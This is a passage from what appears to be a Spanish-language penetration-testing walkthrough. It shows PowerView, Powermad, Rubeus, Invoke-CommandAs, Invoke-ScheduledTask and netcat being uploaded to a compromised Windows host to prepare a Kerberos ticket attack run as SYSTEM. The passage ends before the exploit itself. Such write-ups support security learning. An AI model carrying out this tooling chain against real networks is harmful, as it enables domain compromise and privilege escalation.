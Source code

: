 Para explotarlo, necesitaremos algunos elementos. Comenzaremos por los módulos PowerView y Powermad, además de Rubeus para solicitar e importar un ticket al final.

```powershell
PS C:\Users\Administrator\Documents> upload PowerView.ps1

Info: Uploading PowerView.ps1 to C:\Users\Administrator\Documents\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents> upload Powermad.ps1

Info: Uploading Powermad.ps1 to C:\Users\Administrator\Documents\Powermad.ps1  

Data: 180768 bytes of 180768 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents> upload Rubeus.exe

Info: Uploading Rubeus.exe to C:\Users\Administrator\Documents\Rubeus.exe

Data: 595968 bytes of 595968 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents>
```

Entiendo. Dado que la operación que necesitamos realizar requiere ejecutarse como el usuario NT AUTHORITY\SYSTEM, subiremos un par de módulos y el archivo netcat.exe.

```powershell
PS C:\Users\Administrator\Documents> upload Invoke-CommandAs.ps1

Info: Uploading Invoke-CommandAs.ps1 to C:\Users\Administrator\Documents\Invoke-CommandAs.ps1

Data: 25480 bytes of 25480 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents> upload Invoke-ScheduledTask.ps1

Info: Uploading Invoke-ScheduledTask.ps1 to C:\Users\Administrator\Documents\Invoke-ScheduledTask.ps1  

Data: 13788 bytes of 13788 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents> upload netcat.exe

Info: Uploading netcat.exe to C:\Users\Administrator\Documents\netcat.exe

Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```
